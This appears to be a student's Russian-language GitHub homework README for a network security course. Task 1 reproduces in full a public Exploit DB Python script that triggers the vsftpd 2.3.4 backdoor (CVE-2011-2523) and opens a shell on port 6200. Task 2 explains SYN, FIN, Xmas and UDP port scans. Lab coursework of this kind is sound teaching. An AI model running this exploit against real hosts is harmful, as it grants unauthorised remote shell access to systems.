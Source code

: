 # git_15
Задание 1

![image](https://github.com/user-attachments/assets/53fdcb86-9e64-485a-988a-3372f0394c80)

В Exploit DB нашёл только одну сетевую службу vsftpd 2.3.4
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()

Задание 2

![image](https://github.com/user-attachments/assets/6389a3da-a62b-49f2-99ad-cf0d16c1cc43)

![image](https://github.com/user-attachments/assets/d26d8317-fbe6-4766-bd31-fd8bf3c608dd)

![image](https://github.com/user-attachments/assets/ef6c3cee-59d2-4316-bfbd-7d680162ce1e)

SYN сканирование:
- При SYN сканировании отправляется только пакет с флагом SYN, чтобы установить соединение с портом.
- Если порт открыт, целевой хост отправляет пакет с флагами SYN-ACK в ответ.
- SYN сканирование создает минимальный сетевой трафик, так как не завершает установление соединения.

FIN сканирование:
- При FIN сканировании отправляется пакет с флагом FIN, чтобы закрыть соединение с портом.
- Если порт закрыт, целевой хост должен отправить пакет с флагом RST в ответ.
- FIN сканирование создает небольшой сетевой трафик, но может быть менее надежным из-за различий в реакции хоста на закрытие соединения.

Xmas сканирование:
- При Xmas сканировании отправляются пакеты с установленными флагами FIN, URG и PUSH.
- Если порт закрыт, целевой хост должен отправить пакет с флагом RST в ответ.
- Xmas сканирование создает необычный сетевой трафик, что может помочь обойти некоторые средства обнаружения сканирования.

UDP сканирование:
- При UDP сканировании отправляются пакеты UDP на порты для определения их состояния.
- Если порт закрыт, целевой хост должен отправить пакет ICMP с сообщением о недоступности порта.
- UDP сканирование может создавать больше сетевого трафика из-за необходимости обработки ICMP сообщений.		

		

